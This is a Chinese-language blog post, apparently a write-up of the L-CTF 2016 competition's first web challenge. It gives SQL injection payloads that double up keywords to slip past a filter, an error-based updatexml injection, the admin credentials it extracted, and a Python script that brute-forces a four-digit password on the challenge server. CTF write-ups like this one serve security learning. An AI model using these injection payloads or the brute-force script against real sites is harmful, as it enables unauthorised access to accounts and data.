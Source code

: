 ```yaml
---
title: L-ctf2016 Writeup
date: 2016-10-03 13:35:28
tags:
- Blogs
- ctf
categories:
- Blogs
---
```


在大家都为祖国母亲庆生的时候，天天都有人问我：你干嘛呢？出来玩呀....我表示(╯‵□′)╯︵┻━┻，稍微有点儿遗憾的是又刚好错过了小礼物的边缘线，做了2道高分web题还挺开心的o(*^▽^*)┛，不过xd的服务器也是蛮厉害...题题都要爆破还没怎么崩过...强无敌...

![](/img/lctf2016/paiming.png)
![](/img/lctf2016/timu.png)





# WEB #

## web1 Can you get the flag ##

稍微研究下，发现是注入

```
Password ：' oorr (seleselectct/**/ sleep(100))#
```

显错注入

```
payload: '/**/anandd/**/updaupdatexmltexml(0,concat(0x27,(seleselectct/**/version())),0)%23
```

注入得到了账号和密码

```
admin
we1c0me%_#2&_@LCTF
```

登陆上去发现并没有结束，但是发现如果flag为负的，那么会提示password wrong，那么就跑吧

```
Python跑
import requests
flag=0
for pwd in xrange(0,9999):
    a=str(pwd)
    b=a.zfill(4)
    r=requests.post(
   			 'http://web.l-ctf.com:6699/ret.php',
   			 data={'selectNum': '-1', 'passwd': b , 'submit': 'Buy+It' },
   			 )
    response = unicode(r.content, 'utf-8')
    if 'password wrong' not in response:
   	 flag=1
   	 print 'password is',b,response
   	 break
    elif(flag==0):
   	 print 'trying',b
    else:
   	 break

```